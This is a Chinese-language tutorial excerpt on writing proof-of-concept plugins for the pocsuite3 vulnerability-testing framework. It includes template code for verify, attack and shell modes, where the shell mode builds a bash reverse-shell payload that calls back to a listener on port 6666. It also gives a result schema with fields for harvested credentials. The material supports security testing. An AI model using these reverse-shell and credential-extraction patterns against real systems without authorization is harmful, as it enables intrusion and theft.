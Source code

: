 4. 编写验证模式

```
  def _verify(self):
        output = Output(self)
        # 验证代码
        if result: # result是返回结果
            output.success(result)
        else:
            output.fail('target is not vulnerable')
        return output
```

5. 编写攻击模式

攻击模式可以对目标进行 getshell,查询管理员帐号密码等操作.定义它的方法与检测模式类似

```
def _attack(self):
    output = Output(self)
    result = {}
    # 攻击代码
```

和验证模式一样,攻击成功后需要把攻击得到结果赋值给 result 变量

**注意:如果该 PoC 没有攻击模式,可以在 _attack()函数下加入一句 return self._verify() 这样你就无需再写 _attack 函数了。**

6. 编写shell模式

pocsuite3 在 shell 模式 会默认监听`6666`端口， 编写对应的攻击代码，让目标执行反向连接 运行pocsuite3 系统IP的 `6666`端口即可得到一个shell

```
def _shell(self):
    cmd = REVERSE_PAYLOAD.BASH.format(get_listener_ip(), get_listener_port())
    # 攻击代码 execute cmd
```

shell模式下，只能运行单个PoC脚本，控制台会进入shell交互模式执行命令及输出

7. 结果返回

不管是验证模式或者攻击模式，返回结果 result 中的 key 值必须按照下面的规范来写，result 各字段意义请参见[《PoC 结果返回规范》](https://github.com/knownsec/pocsuite3/blob/master/docs/CODING.md#resultstandard)

```
'Result':{
   'DBInfo' :   {'Username': 'xxx', 'Password': 'xxx', 'Salt': 'xxx' , 'Uid':'xxx' , 'Groupid':'xxx'},
   'ShellInfo': {'URL': 'xxx', 'Content': 'xxx' },
   'FileInfo':  {'Filename':'xxx','Content':'xxx'},
   'XSSInfo':   {'URL':'xxx','Payload':'xxx'},
   'AdminInfo': {'Uid':'xxx' , 'Username':'xxx' , 'Password':'xxx' }
   'Database':  {'Hostname':'xxx', 'Username':'xxx',  'Password':'xxx', 'DBname':'xxx'},
   'VerifyInfo':{'URL': 'xxx' , 'Postdata':'xxx' , 'Path':'xxx'}
   'SiteAttr':  {'Process':'xxx'}
   'Stdout': 'result output string'
}
```
